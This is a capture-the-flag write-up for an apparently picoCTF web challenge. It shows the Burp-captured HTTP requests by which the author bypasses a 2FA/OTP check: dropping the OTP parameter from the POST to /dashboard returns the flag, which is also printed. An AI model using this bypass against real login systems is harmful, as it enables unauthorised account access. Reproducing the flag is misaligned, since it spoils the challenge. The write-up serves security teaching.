


We are supplied a web application that has a registration form:


As the challenge says to use Burp Suite, so I set up my proxy with PwnFox and capture the website traffic.

I then fill in the form and send the contents:
```
POST / HTTP/1.1
Host: titan.picoctf.net:56775
...
Cookie: session=eyJjc3JmX3Rva2VuIjoiNGI5M2RlZmQyYTM1NjdmOWQzMjRhM2YxMDY2ZTJiNGRlNWQ2MTJiNiJ9.Z9Jfzw.fPiTJRsE5bmU_QFhnNFs-Z6cklE
...

csrf_token=IjRiOTNkZWZkMmEzNTY3ZjlkMzI0YTNmMTA2NmUyYjRkZTVkNjEyYjYi.Z9Jfzw.r4YYR6jHDamnbwk9w576NDvb0qw&full_name=a&username=b&phone_number=c&city=d&password=3&submit=Register
```

We send the POST request, then are redirected to `/dashboard`:
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
```

The `/dashboard` endpoint asks for a 2FA code, that we do not have.


Filling it in any way with '123456' responds with:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Invalid OTP
```

Boooooooo.

Looking at the POST request sent to `/dashboard`, this is what is sent:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...

opt=123456
```

What if we don't send an OTP? The application might not check if the OTP exists and default functionality could be to authenticate.

Let's send the following request:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...
```

The application responds:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Welcome, b you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```

And we get the flag!
Flag: `picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}`